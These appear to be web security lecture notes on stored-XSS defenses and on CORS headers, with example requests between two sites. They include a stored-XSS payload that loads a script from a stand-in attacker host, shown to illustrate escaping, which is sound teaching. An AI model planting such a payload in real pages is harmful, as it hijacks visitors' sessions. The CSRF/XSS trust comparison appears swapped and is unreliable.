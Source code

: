 (2) **Input escaping or sanitization**

Example: in stored XSS, if attacker submits this comment:

```html
<script src="http://attacker.com/evil.js"></script>
```

The server should escape the `<script>` tag:

```html
&lt;script src="http://attacker.com/evil.js"&gt;&lt;/script&gt;
```

So when another user retrieves the comment, the comment will be displayed as-is (HTML rendering translates `&lt;` to `<`), and the script will not be executed.

(3) **Use less powerful APIs**

#### CORS

CSRF and XSS exploits different trust in the web.

- CSRF: Turst from a server to client web browser. (Browser assumes the webpage content is safe, and thus directly executes the script.)
- XSS: Trust from client web browser to server. (Server assumes the user's input is safe, and thus echoes the input.)

**Cross-Origin Resource Sharing (CORS)**: A mechanism that allows many resources (e.g. fonts, JavaScript, etc.) on a web page to be requested from another domain outside the domain from which the resource originated.

CORS is in HTTP headers:

Two types of requests:

- Simple requests: GET, POST.
- Preflighted requests: Other requests, e.g. PUT, DELETE, with an additional OPTIONS request to check if the server allows the request, before sending the actual request.

Example (1): gracebook.com sends a GET request to mybank.com.

```
// gracebook.com/user/123 GET mybank.com/account/123 (request)
GET /account/123 HTTP/1.1
Origin: http://gracebook.com // last page visited
Host: mybank.com // target server
...

// (response)
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://gracebook.com
Access-Control-Allow-Credentials: true // allow cookies
Access-Control-Expose-Headers: X-My-Custom-Header
...
```

Example (2): gracebook.com sends a PUT request to mybank.com.
